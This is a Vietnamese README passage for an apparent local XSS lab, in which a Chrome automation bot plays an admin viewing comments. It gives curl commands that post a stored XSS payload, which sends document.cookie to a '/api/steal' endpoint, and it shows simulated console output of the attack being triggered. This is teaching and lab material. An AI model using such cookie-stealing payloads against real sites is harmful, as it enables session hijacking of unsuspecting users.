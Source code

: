 Server tự động:

-   Khởi tạo BrowserAutomation instance
-   Graceful shutdown khi dừng server
-   Error handling cho browser operations

## 🧪 Demo

### Bước 1: Khởi động Server

```bash
npm start
```

**Console Output:**

```
Server đang chạy tại http://localhost:3000
🚀 Chrome Auto-Login feature đã sẵn sàng!
```

### Bước 2: Login và Post XSS

```bash
# Login as attacker
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"user1","password":"password1"}'

# Post XSS payload
curl -X POST http://localhost:3000/api/comment \
  -H "Content-Type: application/json" \
  -H "Cookie: auth=user1:password1" \
  -d '{"comment":"<script>fetch(\"/api/steal?cookie=\"+document.cookie)</script>"}'
```

### Bước 3: Xem Magic! ✨

**Server Console:**

```
🚀 [CHROME-AUTO] Phát hiện comment mới, chuẩn bị mở Chrome...
🎯 [CHROME-AUTO] XSS payload detected! Sẽ mở Chrome sau 3 giây...
🌐 [CHROME-AUTO] Đang mở Chrome browser...
🚀 [CHROME-AUTO] Đang khởi động Chrome browser...
✅ [CHROME-AUTO] Chrome browser đã sẵn sàng
🔐 [CHROME-AUTO] Đang đăng nhập admin...
✅ [CHROME-AUTO] Admin đã đăng nhập thành công
👀 [CHROME-AUTO] Admin đang xem comments...
🎯 [CHROME-AUTO] XSS payload đã được trigger (nếu có)
✅ [CHROME-AUTO] Chrome automation hoàn thành!
📸 [CHROME-AUTO] Screenshot saved: xss-attack-1697451234567.png
🔒 [CHROME-AUTO] Browser đã đóng
```
